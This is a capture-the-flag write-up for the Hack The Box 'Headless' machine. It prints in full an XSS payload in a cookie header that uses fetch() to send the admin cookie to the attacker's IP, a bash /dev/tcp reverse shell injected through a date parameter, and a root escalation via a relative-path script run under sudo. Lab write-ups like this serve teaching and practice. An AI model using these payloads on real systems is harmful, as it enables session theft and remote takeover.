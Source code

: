 # [Headless](https://app.hackthebox.com/machines/Headless) Writeup [HTB]
## ⏯️ Credits
This was my first XXS/command injection challenge, and I was super lost. So I basically followed [this official video](https://www.youtube.com/watch?v=FDCpJbS1OuQ). It was great!

## 🗺️ Exploring the website
We begin by scanning the services that are exposed using `nmap`. 
We discover that port 5000 is open, and it's returning some HTML. Therefore, we connect to it using the browser.

The website appears to be under construction. We also notice that HTTP requests automatically set an `is_admin` cookie:
```
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```
We try to see whether it's written in base 64:
```sh
$ echo InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs | base64 -d
"user"base64: invalid input
```
We deduce that the first part determines our privileges (we are a simple user), while the second part looks like a signature. Interestingly enough, the cookie doesn't change when we reload the page, meaning there's no concept of session, and we can most likely steal the admin cookie.

Finally, we use `feroxbuster` to bruteforce the website directories. We find 2 of them:
- `/support`, containing a POST form;
- `/dashboard`, that we don't have access to (this most likely requires admin privileges).

## 🍪 Playing with the form
The contact form contains the following fields: first name, last name, email, phone number and message. Given that we want to steal that admin cookie, we begin by trying some POC XXS in the message field:
```html
<script>alert('AAA')</script>
```
The website is not happy about it, as it returns a "Hacking Attempt Detected" page, stating that the admin will be notified, and printing on screen the header of our POST request. Interesting... 
If the admin visualizes on screen the same exact header of our request, then we can inject some HTML script in it, and get the admin cookie nicely delivered to us!

To do so, we add a new, not-at-all-sketchy cookie: 
```html
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xxs=<script>fetch("http://10.10.14.136:4815/?"+document.cookie)</script>
```
where `10.10.14.136` is our vpn IP address.

We also open a channel on port 4815 to see our cookie:
```sh
$ nc -lvnkp 4815
```

We wait a few minutes and... voilà! The admin cookie has been delivered, right at our doorsteps!
```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 🐚 Accessing the dashboard and getting the reverse shell
Now that we got admin privileges, we can easily access to the `/dashboard` page. This is another form-looking thing, asking for a date and retrieving website statistics for it.
We want to get some kind of shell on the app web server, so we try to inject commands in the `date` parameter of the HTTP POST body. As before, we begin with some POC:
```
date=2023-09-15;sleep 2
```
Bingo! The response takes around 2 seconds to arrive, meaning we can inject commands in the web server and get a well deserved reverse shell!
```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.136/4815+0>%261'
```
Here we are using the classic `bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'`, which runs an interactive instance of bash and redirects everything to our local web server.

## 🫚 Becoming root and owning the ~~world~~ flag!
Now that we have our shell, we begin with some exploration:
```sh
$ whoami
dvir
$ sudo -l
[...]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
From the HTB website, we know the flag is in the `/root` directory, which of course is not accessible to our peasant user.
However, we are still allowed to run this `/usr/bin/syscheck` script with root permissions. Interesting... 

The script is not very long. The most interesting part is this "if" clause:
```sh
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
While all the other commands are called with their full name, this `./initdb.sh` script is called with its relative path. Moreover, since it's called by a process with root privileges, it will also have root privileges. Very convenient...

From our home directory (on which we have writing permissions), we create our own `initdb.sh` file. Useless to day, it will *__not__* initialize the database.
```sh
$ echo bash > initdb.sh
$ chmod +x initdb.sh
```
Now we are ready to run the system check!
```sh
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.5G
System load average:  0.00, 0.00, 0.04
Database service is not running. Starting it...
$ whoami
root
$ ls /root
root.txt
$ cat /root/root.txt
<THE FLAG>
```
## 🚩 Conclusion and tools recap
That's all folks!

I really enjoyed this challenge, it was a good starting point for HTB and I learned a lot of useful stuff!

*__Tools recap__*
- `nmap` to scan ports: nmap -sC -sV 10.10.11.8
- `feroxbuster` to bruteforce the website directories: feroxbuster --url http://10.10.11.8:5000 -w ~/snap/feroxbuster/common/raft-medium-directories.txt
- Burp Suite Community Edition to make and intercept HTTP requests


